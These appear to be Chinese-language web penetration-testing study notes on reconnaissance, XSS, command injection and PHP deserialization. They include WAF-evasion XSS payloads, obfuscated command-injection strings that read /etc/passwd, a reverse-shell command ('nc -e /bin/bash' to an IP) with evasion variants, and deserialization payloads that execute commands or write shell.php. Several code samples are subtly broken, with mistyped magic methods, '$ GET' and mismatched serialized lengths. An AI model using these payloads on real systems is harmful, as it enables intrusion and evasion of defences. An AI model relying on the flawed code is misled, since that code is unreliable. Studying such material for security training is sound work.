

# 基础知识

### 信息收集

> 为什么要进行信息收集?

- 信息收集是指通过`各种方式获取所需要的信息`,以便我们在后续的渗透过程中更好的进行.
- 信息收集的`方式`:
  - 主动收集:与目标直接交互拿数据
  - 被动收集:通过`搜索引擎`或者`社工`等方式间接的获取目标主机信息
- 主要收集`内容`:
  - 服务器的配置信息
  - 网站的信息,包括网站`注册人`,目标网站`系统`,目标网站网站`相关子域名`,目标服务器所`开放的端口`
  - 更多关联的信息(收集的信息越多,渗透测试成功的概率也就越高)....

> 我们拿到一个目标渗透测试,该如何操作

- 关注目标主机的`whois信息`,`子域名`,`目标ip`,`旁站c段查询`,`邮箱收集`,`cms类型`,`敏感信息`,`端口信息`,`服务器与中间件信息`

- `Google Hacking`:

  - ```php
    //site:查找与指定url有关联的网站
    site:baidu.com
        
    //inurl:返回url中含有关键字的网页
    inurl:Login
        
    //allinurl:与inurl类似,可指定多个词
    allinurl:Login admin
     
    //intext:寻找正文中含有关键字的网页
    intext:登录
        
    //allintext.....
        
    //intitle:寻找标题中含有关键字的网页
    intitle:后台登录
        
    //allintitle
        
    //filetype:指定访问文件类型
    filetype:doc site:baidu.com    
    ```

- ICP`备案信息收集`

  - 爱站:https://icp.aizhan.com/
  - 站长之家:https://icp.chinaz.com/
  - ICP备案查询网:https://www.beianx.cn/search/
  - 工信部ICP备案查询:https://beian.miit.gov.cn/

- 备案`反查`域名信息

  - 网站向有关部门申请的备案信息(单位名,备案编号,网站负责人,电子邮箱,联系电话,法人...)
  - 工信部ICP备案查询:https://beian.miit.gov.cn/
  - ICP备案查询网:https://www.beianx.cn/search/

- `Whois`信息收集

  - whois可以获取关键注册人信息,包括注册公司,注册邮箱,管理员邮箱,管理员联系手机.
  - 国外who.is:http://who.is/
  - 站长之家:http://whois.chinaz.com/
  - 爱站:https://icp.aizhan.com/
  - 微步:https://x.threatbook.cn/
  - IP138网站:https://site.ip138.com/
  - 腾讯云:https://whois.cloud.tencent.com/
  - 狗狗查询:https:www.ggcx.com/main/integrated/

- `ip反查域名`

  - 目标可能存在多个域名绑定同一ip上,通过ip反查,可以获取到其他域名信息,比如旁站
  - 站长工具:https://stool.chinaz.com/same
  - dnslytics:https://dnslytics.com/
  - ip138:https://site.ip138.com/
  - `Fofa`:ip="11.11.11.11"  https://fofa.info
  - `奇安信鹰图`:ip="11.11.11.11" https://hunter.qianxin.com/
  - Shodan.io "11.11.11.11"  https://www.shodan.io/

- 子域名收集

  - 搜索引擎
  - 查子域:https://chaziyu.com/
  - 尾部社区:https://x.threatbook.com/
  - VT:https://www.virustotal.com/gui/home/search
  - RapidDNS:https://rapiddns.io/subdomain
  - Layer子域名挖掘机
  - SubDomainsBrute
  - Oneforall
  - subfinder+kssubdomain+httpsx
  - JsFinder
  - URLFinder

- 端口探测

  - Nmap,Zenmap,masscan
  - -sP/-sn 使用ping扫描,查看主机存活,不进行端口扫描
  - -P 指定端口
  - -O 显示操作系统版本

- CMS指纹识别

  - 通过指定特殊目录或者特殊文件
  - 页面底部版权信息,关键字
  - html注释掉的代码内容
  - robots.txt文件中的关键字
  - wappalyzer插件
  - whatweb工具
  - 潮汐指纹:http://finger.tidesec.net
  - CMS识别工具:http://whatweb.bugscaner.com/look
  - 云悉:http://www.yunsee.cn
  - GODeye.vip

- 判断是否存在CDN

  - 多地ping
  - 爱站
  - 站长之家

### XSS漏洞

> BOM模型

- 即浏览器对象模型,由于现代浏览器几乎实现了`JavaScript`交互性方面相同方法和属性,因此常被认为是`BOM`的方法和属性

- 例如:

  ```php
  /*
  
  window对象
  所有浏览器都支持window对象,他表示浏览器窗口
  所有JavaScript全局对象,函数以及变量均自动成为window对象的成员
  全局变量是window对象的属性和方法
  甚至 HTML DOM 的 document 也是 window 对象的属性之一
  window.document.getElementById("header"); ---------- document.getElementById("header");
  
  */
  ```

- ```cmd
  window.location --> window在使用时可以被省略
  
  # location.hostname --> 返回web主机的域名
  # location.pathname --> 返回当前页面的路径和文件名
  # location.port     --> 返回web主机的端口(80或443)
  
  <script>document.write(location.pathname);</script>
  ```

- ```html
  //window.navigator --> 对象包含有关访问者浏览器信息
  
  <script>
      txt = "<p>浏览器代号:" + navigator.appCodeName + "</p>";
      txt += "<p>浏览器名称:" + navigator.appName + "</p>";
      txt += "<p>浏览器版本:" + navigator.appVersion + "</p>";
      txt += "<p>启用Cookies:" + navigator.cookieEnabled + "</p>";
      txt += "<p>硬件平台:" + navigator.platform + "</p>";
      txt += "<p>用户代理:" + navigator.userAgent + "</p>";
      txt += "<p>用户代理语言:" + navigator.language + "</p>";
      document.write(txt);
  </script>
  ```

- ```cmd
  document.cookie --> 对象用于存储web页面的用户信息,可以用来创建,读取,删除cookie
  
  //创建cookie
  document.cookie="username=Sun Hua";
  
  //读取cookie
  document.write(document.cookie)
  
  //删除cookie
  document.cookie="username=;expires=Sun,02 July 2024 15:41 GMT";
  ```

  

------


> XSS漏洞

- `XSS`又叫做`CSS`,全称为`跨站脚本攻击`,它指的是攻击者往web页面或者url里`插入`恶意的 `JavaScript` 脚本代码,如果web应用程序对用户输入的内容没有`过滤`,那么当正常用户浏览该网页的时候,嵌入在web页面里的恶意 `JavaScript脚本代码会被执行`,从而达到恶意攻击正常应用的目的
- 漏洞的`位置`:
  - `数据交互`的地方-->`get`,`post`,`cookies`,`headers`方法,`富文本编辑器`,`各类标签插入和自定义`
  - `数据输出`的地方-->用户资料,关键词,标签,说明
- 原理



- ```php
  //服务端代码
  <?php
      $input = $_GET["input"];
  	echo $input;
  ?>
      
  //用户提交
  <script>alert(/xss/)</script>    
  ```

  

- XSS漏洞产生`条件`:

  - 1.可以控制的输入点
  - 2.`输入`能返回到前端页面上`被浏览器当成脚本语言解释执行`

- XSS漏洞的`危害`:

  - 窃取用户Cookie,冒充用户身份进入网站
  - 键盘记录
  - 客户端信息探查
  - XSS组合其它漏洞getshell
  - 劫持用户会话,执行任意操作
  - 刷流量,执行弹窗广告
  - 传播蠕虫病毒

- XSS漏洞的`防御`:

  - a:使用`XSS Filter`-->过滤用户提交的有害信息,从而达到防范XSS攻击的效果
  - b:输入过滤 --> 对用户输入进行过滤(后端)
  - c:输入验证 --> 对用户提交的信息进行`有效验证`(是否仅包含合法字符,字符长度限制,输入是否符合特殊的格式要求)
  - d:输出编码 --> HTML编码主要使用对应的`HTML 实体代替字符`

- `检测`XSS的方法:

  - 手工检测
    - 使用手工检测时需要考虑`哪里有输入,输入的数据在什么地方输出`
    - 可得知输出位置:输入一些`敏感字符`,例如`<`,`>`,`"`,`'`,`()`等,请求后查看html源码,看这些输入的字符`是否被转义`
    - 无法得知输出位置时:可能需要管理员审核,无法得知输入的数据在后台管理界面处于什么状态
  - 全自动检测XSS
    - `APPSCAN`,`AWVS`,`Burp`等软件
    - 专业的XSS扫描工具:`XSStrike`

- `工具与手动相结合`


------


> XSS漏洞的分类

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型XSS | URL                     | HTML            |
| 存储型XSS | 后端数据库              | HTML            |
| DOM型XSS  | 后端数据库/前端存储/URL | 前端 JavaScript |

- `反射型XSS`

  - 概念:是`非持久性`,参数型的跨站脚本,反射型XSS的Js代码在`web应用的参数`(变量)中,如`搜索框`的反射型XSS
  - 存在位置:常见于通过`URL传递参数`的功能,如网站搜素,跳转等
  - 攻击手法:需要欺骗用户自己去点击`链接`才能触发XSS代码(服务器中没有这样的页面和内容),一般容易出现在搜索页面
    - 验证反射性xss漏洞是否存在
    - `<script>alert(/xss/)</script>`(常用)
    - `<script>confirm('xss')</script>`
    - `<script>prompt('xss')</script>`

- `存储型XSS`

  - 概念:`持久性`跨站脚本,是三种XSS中`危害最大`的,它是将恶意代码写进`数据库`或`文件`等可以`永久保存数据的介质中`
  - 存在位置:常出现在`留言板`,`发表评论`或`发表文章`的地方(数据写入的地方)
  - 攻击手法:通过留言板等功能,将攻击者精心构造的XSS代码`保存到数据库`中,当其它用户再次访问这个页面时,就会触发并执行,从而窃取用户的敏感信息
    - 以留言板为例,留言板是`容易`发生`存储型XSS`的地方
    - 输入测试代码`<script>alert(/xsstest/)</script>`,提交留言,当网站管理员在后台进入留言管理页面时就会弹出,只要留言不删除,每次进入都会弹窗

- `DOM型XSS`

  - `不经过后端`,输出点在DOM,DOM-XSS是通过url传入参数去控制触发的,本质也属于`反射型XSS`

  - 攻击手法:攻击者构造出`特殊的URL`,其中包含恶意代码,用户打开带有恶意代码的URL,用户`浏览器`接收到响应后`解析执行`,前端`JavaScript`取出URL中的恶意代码并执行.恶意代码窃取用户数据并发送到攻击者的网站,或者冒充用户的行为,调用目标网站的接口执行攻击者指定的操作

  - | 方法                    | 描述                                                        |
    | ----------------------- | ----------------------------------------------------------- |
    | getElementById()        | 返回带有指定ID的元素                                        |
    | getElementByTagName()   | 返回包含带有指定标签名称的所有元素的节点列表(集合/节点数组) |
    | getElementByClassName() | 返回包含带有指定类名的所有元素的节点列表                    |
    | appendChild()           | 把新的节点添加到指定节点                                    |
    | removeChlid()           | 删除子节点                                                  |
    | replaceChild()          | 替换子节点                                                  |
    | insertBefore()          | 在指定的子节点前面插入新的子节点                            |
    | createAttribute()       | 创建属性节点                                                |
    | createElement()         | 创建元素节点                                                |

  - poc: `?message=<script>alert(/xss/)</script>`

  - 以`锚点`的方式提交poc,poc并`不会发送到服务器`,但是已经触发了XSS

  - 测试代码

  - ```html
    <html>
    <body>
    <script>
    	var a = document.URL;	//获取url
    	a = unescape(a);
    	document.write(a.substring(a.indeOf("message=")+8,a.length));	//获取url中的message的值,并且输出
    </script>
    </body>
    </html>
    ```

- 三种漏洞`区别`

  - ```php
    //存储型XSS与反射型XSS的区别:存储型XSS的恶意代码存在数据库里,反射型XSS的恶意代码存在URL里
    
    //DOM型与其它两种的区别:DOM型XSS攻击中,取出和执行恶意代码由浏览器端完成,属于前端Javascript自身的安全漏洞,而其它两种XSS都属于服务端的安全漏洞
    ```


> xss的简单利用

- XSS获取管理员权限(获得cookie)
- xss键盘记录
- xss获取页面源代码,前端代码
- xss获取内网ip通过对内网进行扫描
- xss组合其它漏洞getshell
- 利用xss进行水坑攻击/钓鱼攻击
- 其他利用

> xss绕过waf

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    width: ｅｘｐｒｅｓｓｉｏｎ(alert(1))
    <!--TODO:使用全角字符-->
    <style>@import 'javasc/ri/0pt:alert("xss")';</style>
</head>
<body>
<script>alert(1)</script></img>


<body onload=alert(1)>
<p onmouseover=alert(1)>test</p>
<a href="javascript:alert(1)">test</a>

<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==" ></object>
<iframe src="data:text/html,<script>alert(1)</script>"></iframe>
<iframe src="data:text/html,%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%28%31%29%3C%2F%73%63%72%69%70%74%3E"></iframe>

<!--TODO:变形,大小写-->


<!--TODO:左斜线代替空格,水平制表符,回车符-->

<a href="javascript:alert(1)">test</a>

<!--TODO:双写绕过-->
<!--<scr<scriptipt>alert(1)</scr</script>ipt>-->

<!--TODO:编码-->
<A hREf="j&#97;v&#x61;script:alert(1)">test</A>

<!--TODO:使用特殊字符编码-->
<A href="&#01;j&#97;v&#x61;s&#9;c&#10;r&#13;ipt:alert(/xss/)">点击</A>

<!--TODO:使用html编码-->
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x2f;&#x78;&#x73;&#x73;&#x2f;&#x29;">点击</a>

<!--TODO:使用十进制 ascii 编码-->


<!--TODO:使用十六进制 ascii 编码-->

<script>eval("/x61/x6c/x65/x72/x74/x28/x27/x78/x73/x73/x27/x29")</script>

<!--TODO:使用unicode编码-->


<!--TODO:使用jsfuck,http://www.jsfuck.com/ zai'xain-->

</body>
</html>
```


------


### 反序列化

> 命令执行漏洞的产生原因

- 代码过滤不严,应用程序直接或间接使用了`动态执行命令的危险函数`,并且这个函数的运行`参数`是可控的

- 系统的漏洞造成命令注入

- 漏洞本质:应用有时需要调用一些执行系统命令的函数,当服务器`没有严格过滤用户提供的参数时`,就有可能导致用户提交`恶意代码`被服务器执行,从而造成命令执行漏洞

- 涉及的函数:`system`,`exec()`,`shell_exec`,`passthru`,`popen`,`反引号`

- ```php
  <?php
  // 1. system()
  system('whoami'); // 列出当前目录的文件
  
  // 2. exec()
  exec('whoami', $output); // 执行命令并将输出保存到数组中
  print_r($output);
  
  // 3. shell_exec()
  $result = shell_exec('whoami'); // 执行命令并将结果作为字符串返回
  echo $result;
  
  // 4. passthru()
  passthru('whoami'); // 执行命令并直接输出结果
  
  // 5. popen()
  $handle = popen('whoami', 'r'); // 打开进程以读取输出
  while (($line = fgets($handle)) !== false) {
      echo $line;
  }
  pclose($handle);
  
  // 6. 反引号 (backticks)
  $output = `whoami`; // 使用反引号执行命令并将结果作为字符串返回
  echo $output;
  ?>
  
  ```

  

- 危害:

  - 继承web服务器的程序权限,执行系统命令
  - 读写文件
  - 反弹shell
  - 控制整个网站
  - 控制整个服务器

- 防御:

  - 尽量`少使用执行命令函数`或者`禁用disable_functions`
  - 在进入执行命令函数之前,对`参数进行过滤`,对`敏感字符进行转义`
  - 参数尽量使用`引号包括`,并在拼接前调用`addslashes进行转义`

- windows系统执行多命令执行语法

| 命令格式                 | 含义                              |
| ------------------------ | --------------------------------- |
| command1 & command2      | 先后执行1和2,无论1是否成功执行    |
| command1 && command2     | 先后执行1和2,只有1执行成功才执行2 |
| command1 /\|/\| command2 | 先后执行1和2失败才执行2           |
| command1 /\| command2    | 将1执行的结果传递给2              |
| command1 ; command2      | 先后执行1和2,无论1是否成功执行    |

> 命令执行变形

- `*`代表通配符[0,无穷]
- `?`代表[一定有一个]任意字符
- []同样代表[一定有一个在括号内]的字符(非任意字符).例如[abcd]随机一个
- [-]若有减号在中括号内时,代表[在编码顺序内的所有字符].例如[0-9]代表0-9之间的所有数字,因为数字的编码是连续的
- [^]若中括号内的第一个字符为指数符号`^`,那表示[反向选择],例如`[^abc]`代表一定有一个字符,只要是`非`a,b,c的其它字符就接收的意思

```cmd
//执行 cat /etc/passwd 读取passwd文件
//变形:/?in/?at/?tc/?ass?d  

//执行反弹shell时, nc -e /bin/bash 192.168.12.151 4444
//变形------------/???/nc -e/???/b???h 192.168.12.151 4444
//还可ip转数字,数字转ip
//变形------------/???/nc -e/???/b???h 3232238743 4444

//单引号----------------'n'c -e /'b'i'n'/b'a's'h' 1'9'2.1'6'8.1'5'1 '4'44'4'

//双引号----c"a"t /"e""t"c/"p"as"s"w"d"
//反斜杠----c/a/t /e/t/c/p/as/swd
//组合------c'a't /??c//p?/s?''?"d"

//未初始化变量
echo $a $b $c
cat$a /etc$a/passwd$a
a=w;b=hoa;c=mi;$a$b$b  --->输出root

//使用没有被waf过滤的命令
nc -lnvp 4444
靶机:whois -h 192.168.1.1 -p 4444 'whoami'

//反引号执行命令
`whoami`
ichunqiu `whoami` ichunqiu

//大括号,重定向符号绕过空格过滤
{cat,/etc/passwd}
{ls,-al}
l<>s
cat<>/etc/passwd

//base64编码
ehco whoami|base64  -->  d2hvYW1pCg==
`echo d2hvYW1pCg== | base64 -d`

//linux默认字符命令
${#PATH:5:1}${#PATH:2:1}
```

```cmd
//windows绕过
//大小写混合绕过
(((WH^O^am""i)))

//set命令和windows变量绕过
set a=ichunqiu
echo %a%

set i=ipconfig
%i%

set z=ipc
set x=onfig
%z%%x%

//字符串切割
echo  %a% --> whoami
%a:~0.6%

//逻辑运算符
whoami | net user  -->执行命令2
whoami || net user -->命令1失败执行命令2
whoami & net user  -->无论1是否成功都会执行命令2
```

> 反序列化漏洞

- 定义:将对象的`状态信息`转换为`可以存储或传输的形式`(字符串的过程).在序列化期间,对象将其当前状态写入到临时或持久性存储区.之后可以通过存储区中读取或反序列化对象的状态,重新创建该对象
- 即:序列化就是把一个`对象变成可以传输的字符串`,可以以特定的格式在进程之间跨平台,安全的进行通信
- 用途:方便`对象`在网络中的传输与存储
- 序列化与反序列化的过程:
  - 序列化:将对象转换为流,利于存储和传输的格式
  - 反序列化:将流转化为对象


> 序列化

```php
<?php
class Stu{
	public $name;
	public $sex;
	public $age;
	public $score;
}
?>
    

//使用serialize(),将$stu1这个对象序列化成一个字符串
<?php
include "classStu.php";
$stu1=new Stu();
$stu1->name="ichunqiu";
$stu1->sex=true;
$stu1->age=23;
$stu1->score=100;
echo serialize($stu1);
?>
```


> 反序列化

```php
<?php
    include "class.php";
	$stu1=
    <<<STR
    O:3:"Stu":4:{s:4:"name";s:8:"ichunqiu";s:3:"sex";b:1;s:3:"age";i:24;s:5:"score";d:100;}
    STR;
	$stu1=unserialize($stu1);
	var_dump($stu1);
?>
```


- 概念:php反序列化漏洞也叫`php对象注入`
- 危害:这些漏洞很难利用,但是一旦利用成功`非常危险`
- 形成原因:程序`没有对用户输入的反序列化字符串进行检测`,导致反序列化过程可以被恶意控制,进而造成代码执行,getshell等一系列不可控的后果.反序列化漏洞并不是php特有,也存在python,java等语言中
- 常见的魔法函数
  - _construct():当一个`对象创建`时被调用(相当于c++构造函数)
  - _destruct():当一个`对象销毁`时被调用(c++的析构函数)
  - _sleep():将在unserialize()函数执行``反序列化`时使用
  - _weekup():将在unserialize()函数执行`反序列化`时调用
  - _toString():当一个`对象被当作一个字符串`时使用

```php
<?php
class Test{	//创建一个类
public $str='ichunqiu;';
function _destruct(){
//通过反序列化，调用A对象，因为PHP魔法函数的缘故，他会自动执行destruct()
@system($this->str);}
 //创建一个类的对象，并将其序列化
$test = new Test();
//echo serialize($test);
echo "<pre>";
//反序列化，将得到的序列化字符串反序列化为对象
unserialize($ GET['code']);
?>    
```

```php
//payload
?code=O:4:"Test":1:{s:3:"str";s:8:"ipconfig";}
?code=O:4:"Test":1:{s:3:"str";s:6:"ipconfig";}
```


```php
<?php
class Hello{
var $test ='123';
function _wakeup(){
$fp = fopen("shell.php","w+");
fwrite($fp,$this->test);
fclose($fp);}}
$class3 = $ GET['code'];
print _r($class3);
echo "</br>";
$class3 _unser= unserialize($class3);
?>
```

```php
//payload
?code=O:5:"Hello":1:{s:4:"test";s:19:"<?php phpinfo();?>";}
```


